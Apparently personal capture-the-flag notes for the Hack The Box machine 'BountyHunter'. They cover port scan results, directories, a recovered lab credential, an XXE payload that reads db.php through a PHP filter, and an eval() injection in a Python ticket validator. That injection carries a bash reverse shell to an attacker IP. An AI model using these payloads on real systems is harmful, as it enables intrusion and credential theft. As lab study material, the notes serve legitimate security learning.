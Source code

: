 # BountyHunter

| Name      | IP           | Difficulty | OS    |
| --------- | ------------ | ---------- | ----- |
| bountyhunter | 10.10.11.100 | Easy       | Linux |

## NMAP

| HOST                            | PORT | PROTO | SERVICE      | VERSION                 |
| ------------------------------- | ---- | ----- | ------------ | ----------------------- |
| 10.10.11.100 (bountyhunter.htb) | 22   | tcp   | OpenSSH      | 8.2p1 Ubuntu 4ubuntu0.2 |
| 10.10.11.100 (bountyhunter.htb) | 80   | tcp   | Apache httpd | 2.4.41                  |

## HEADERS

```
HTTP/1.1 200 OK
Date: Sun, 09 Jul 2023 16:43:55 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
```

## DIRECTORIES

- /js  
- /index.php
- /css 
- /db.php
- /assets
- /resources 
- /portal.php
- /server-status

## USERS

- development:m19RoAU0hP41A1sTsq6K

## NOTES

* `/log_submit.php`
* Disable 'test' account on portal and switch to hashed password. Disable nopass. in http://bountyhunter.htb/resources/README.txt
* logsubmit vulnerable to XXE
* /etc/passwd works but php files return empty, need a php filter bypass
```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/db.php"> ]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>test</cwe>
		<cvss>test</cvss>
		<reward>test</reward>
		</bugreport>
```
* Reveals development password
* sudo -l `sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py`
* Ticket needs to look like this:
```
# Skytrain Inc
## Ticket to New Haven
__Ticket Code:__
**53+410+86**
##Issued: 2021/04/06
#End Ticket
```
- To be valid, when the first number is divided by 7 there needs to be a remainder of 4
* The script is vulnerable to `eval()` injection https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-eval-code-execution/
- Reverse shell `**53+410+86+__import__('os').system('bash -c "bash -i >& /dev/tcp/10.10.14.9/2222 0>&1"')**` 
